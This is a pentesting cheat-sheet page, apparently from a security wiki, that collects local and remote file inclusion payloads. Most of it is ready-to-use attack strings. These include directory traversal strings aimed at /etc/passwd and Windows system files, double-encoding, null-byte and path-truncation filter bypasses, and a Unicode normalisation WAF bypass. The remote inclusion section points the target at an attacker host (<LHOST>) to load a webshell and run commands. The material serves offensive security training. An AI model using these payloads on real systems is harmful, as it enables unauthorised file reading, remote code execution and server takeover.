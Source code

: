 # LFI/RFI Payloads

{% hint style="info" %}
For Linux: **/etc/passwd** and **/etc/hosts**. For Windows: **/windows/win.ini**, **\windows\win.ini** and **\windows\system32\drivers\etc\hosts**
{% endhint %}

## LFI payloads

### Manual

```bash
file=/etc/passwd
file=/etc/passwd?
file=../../../../../etc/passwd 
file=/../../../../etc/passwd
file=....//....//....//etc/passwd # If the code deletes ../, then we do this: ....// and when it deletes it, it will look like this: ../
file=..././..././..././..././..././..././etc/passwd
file=....\/....\/....\/etc/passwd
file=%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd # %5c = \
file=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
file=..//..//..//..//..//etc/passwd # Works with 2 slashes or more.
file=<POSSIBLE_PATH>/../../../etc/passwd # Ex: /var/www/images
file=../../../../etc/passwd%00
file=../../../../etc/passwd%00.png 
file=/etc/passwd%00 # POST method.
```

Sometimes browsers get complicated with basic directory traversal sequences, but wget can work:

```bash
wget <URL>?file=../../../../../../../etc/passwd
```

Directory traversal with a slash **/** at the beginning. This is because sometimes the file is called "**lang\_**", and if we use a simple payload, it will be invalid because it would look like this: **lang\_../../../../etc/passwd** . Instead, with this one: **lang\_/.../.../etc/passwd**

```bash
file=/../../../../etc/passwd
```

The following payload only works if you run it in Bash. If it is in PHP, the wildcards (**?** and **\***) will not be replaced by a "**.**":

```bash
file=.?/.*/.?/etc/passwd
```

We can also use special encodings or simply encode twice in URL format:

{% hint style="danger" %}
In PHP versions 5.3.4 and earlier, string-based detection could be bypassed by URL-encoding the payload.
{% endhint %}

```bash
# Doble URL Encode:
file=<DOUBLE URL ENCODING =  "../../../../etc/passwd">
%2e%2e%2f = ../
%252e%252e%252f = ../
%2e%2e%5c = ..\
# Special encodings: %252f = ../ - %c0%af = /
file=..%252f..%252f..%252fetc%252fpasswd
file=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
# Others encodings:
# dot             %c0%2e  %e0%40%ae  %c0ae etc.
# forward slash   %c0%af  %e0%80%af  %c0%2f etc.
# backslash       %c0%5c  %c0%80%5c  etc.
```

Path truncation in PHP. Always tries to start the path with a fake directory (a/). This vulnerability was fixed in PHP 5.3:

```bash
file=a/../../../../../../../../../etc/passwd..\.\.\.\.\.\.\.\.\.\.\[ADD MORE]\.\. # 
file=a/../../../../../../../../../etc/passwd/././.[ADD MORE]/././.
# With the next options, by trial and error, you have to discover how many "../" are needed to delete the appended string but not "/etc/passwd" (near 2027)
file=a/./.[ADD MORE]/etc/passwd
file=a/../../../../[ADD MORE]../../../../../etc/passwd
```

{% embed url="https://jbedelsec.wordpress.com/2018/12/11/exploiting-php-file-truncation-php-5-3" %}

PHP versions prior to 5.5 are vulnerable to **null byte injection**, which means that adding a null byte to the end of the filename should bypass the extension check. For example: `language=/etc/passwd%00` will result in the `include("/etc/passwd%00.php")` statement, where the server ignores everything after the null byte.

{% hint style="info" %}
This happens because C and C++ consider strings to end with null bytes, while PHP does not. The URL-encoded null byte (%00) at the end of the filename is appended to .php but is truncated to /etc/passwd\x00 by the APIs written in C. This results in the inclusion of /etc/passwd instead of /etc/passwd.php when the include() function is called.
{% endhint %}

```bash
# Null byte:
file=../../../../etc/passwd%00.png
```

#### Unicode WAF bypass

**Unicode Compatibility** is a form of _Unicode Equivalence_ which ensures that between characters or sequences of characters which may have distinct visual appearances or behaviors, the same abstract character is represented. For example, `𝕃` is normalized to `L`. This behaviour could open the door to abuse some weak implementations that _performs unicode compatibility after the input is sanitized_.

**NFKC** and **NKFD** are the ones that are interesting because they perform _compatibility_, to check this behaviour, we could use this Python snippet:

```python
import unicodedata
string = "𝕷𝖊𝖛𝖎𝖘𝖂𝖎𝖓𝖌𝖘"
print ('NFC: ' + unicodedata.normalize('NFC', string))
print ('NFD: ' + unicodedata.normalize('NFD', string))
print ('NFKC: ' + unicodedata.normalize('NFKC', string))
print ('NFKD: ' + unicodedata.normalize('NFKD', string))

# Output
NFC: 𝕷𝖊𝖛𝖎𝖘𝖂𝖎𝖓𝖌𝖘
NFD: 𝕷𝖊𝖛𝖎𝖘𝖂𝖎𝖓𝖌𝖘
NFKC: LevisWings
NFKD: LevisWings

# Payloads:
𝕷𝖊𝖛𝖎𝖘𝖂𝖎𝖓𝖌𝖘
%F0%9D%95%B7%F0%9D%96%8A%F0%9D%96%9B%F0%9D%96%8E%F0%9D%96%98%F0%9D%96%82%F0%9D%96%8E%F0%9D%96%93%F0%9D%96%8C%F0%9D%96%98
```

### Wordlists

```bash
# Linux:
wget https://raw.githubusercontent.com/xmendez/wfuzz/master/wordlist/vulns/dirTraversal-nix.txt
wget https://raw.githubusercontent.com/carlospolop/Auto_Wordlists/main/wordlists/file_inclusion_linux.txt
# Windows:
wget https://raw.githubusercontent.com/xmendez/wfuzz/master/wordlist/vulns/dirTraversal-win.txt
wget https://raw.githubusercontent.com/carlospolop/Auto_Wordlists/main/wordlists/file_inclusion_windows.txt
# Fuzz with ffuf:
ffuf -c -w <WORDLIST> -u '<URL>/index.php?page=FUZZ'
```

## RFI Payloads

{% hint style="danger" %}
Remember to test with **uppercase** and **lowercase prefixes** such as **http**, **ftp**, etc.
{% endhint %}

```bash
<URL>?filename=http://<LHOST>/asd # On web server.
<URL>?filename=ftp://<LHOST>/asd # On FTP server.
<URL>?filename=ftp://user:pass@<LHOST>/asd # On FTP server with credentials.
<URL>?filename=\\<LHOST>\smbFolder\asd # On SMB server (Windows only).
```

After verifying that it is vulnerable, we can create a code (which will be our webshell) in the server language (PHP, ASPX, etc.). You can go to the [WebShells ](../../../general/reverse-shells/web-shells.md)section to find webshells in different programming languages.

We can then pull up an HTTP, FTP, SMB, etc. server and run the payload to point it against our webshell:

```bash
<URL>?filename=http://<LHOST>/shell.php&cmd=whoami # On web server.
<URL>?filename=ftp://<LHOST>/shell.php&whoami # On FTP server.
<URL>?filename=\\<LHOST>\smbFolder\shell.php&whoami # On SMB server (Windows only)
```
